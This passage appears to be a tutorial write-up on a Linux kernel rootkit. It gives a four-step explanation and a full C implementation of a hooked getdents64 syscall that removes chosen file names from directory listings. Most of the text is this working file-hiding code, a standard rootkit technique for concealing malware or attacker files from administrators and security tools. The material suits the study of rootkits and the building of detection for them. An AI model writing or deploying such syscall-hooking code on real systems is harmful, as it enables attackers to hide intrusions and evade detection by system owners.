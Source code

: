 Based on the implementation of *getdents*, we can hide a file by

1. hijack *getdents()* syscall to our *hack_getdents()*
2. in *hack_getdents()*, we first call the real *getdents()*, store its return value. When *getdents()* returns, the directory entris have been written to the user space buffer. We can copy it to kernel space by *copy_from_user()*
3. we traverse the entris in kernel space buffer, for each entry--which is a *linux_dirent* struct---we compare the *d_name* with the file name we want to hide. If matches, we remove the entry from the buffer
4. after traversing, we copy the buffer back to user by *copy_to_user()*

implementation is as follow

```c
static int hack_getdents64(unsigned int fd, struct linux_dirent64 __user *dirent, unsigned int count){
    int retval, len_left;
    char hidename[MAX_CLOAK_FILE_NAME_LEN];
    struct linux_dirent64 *dirent_buf, *dirent_c;
    unsigned short d_len;
    retval = (*real_getdents64)(fd, dirent, count);
    if(retval > 0){ // getdents64() have returned something, copy it from userspace, traverse it to find and hide the file name we want to hide, then copy it back to userspace
        dirent_buf = (struct linux_dirent64*)kmalloc(retval, GFP_KERNEL);
        dirent_c = dirent_buf;
        copy_from_user(dirent_buf, dirent, retval);

        len_left = retval;
        while(len_left > 0){
            d_len = dirent_c->d_reclen;
            len_left -= d_len;
            if(is_file_cloaked((char*)&(dirent_c->d_name))){
                memset(hidename, 0, MAX_CLOAK_FILE_NAME_LEN);
                memcpy(&hidename, (char*)&(dirent_c->d_name), strlen((char*)&(dirent_c->d_name)));
                // the dirent is the file we want to hide, remove it from dirent_buf
                if(len_left != 0){
                    // in case the dirent is not the last one, copy memory forward to overwrite the struct
                    memmove(dirent_c, (char*)((unsigned long)dirent_c+d_len), len_left);
                }else{
                    // in case the dirent is the last one, overwrite the struct to 0
                    memset(dirent_c, 0, d_len);
                }
                retval -= d_len;
                printk("[*] successful hide file %s\n", (char*)&hidename);
                continue;
            }

            if(dirent_c->d_reclen == 0){
                // in case some fs driver not implementing the getdents() properly, unlikely?
                printk("[*] shitty fs implementation\n");
                retval -= len_left;
                len_left = 0;
            }
            if(len_left!=0) dirent_c = (struct linux_dirent64*)((unsigned long)dirent_c+d_len);
        }
        // we traversed all dirents struct returned by getdents64(), now copy the modifid buf to user
        copy_to_user(dirent, dirent_buf, retval);
        kfree(dirent_buf);
    }
    return retval;
}
```
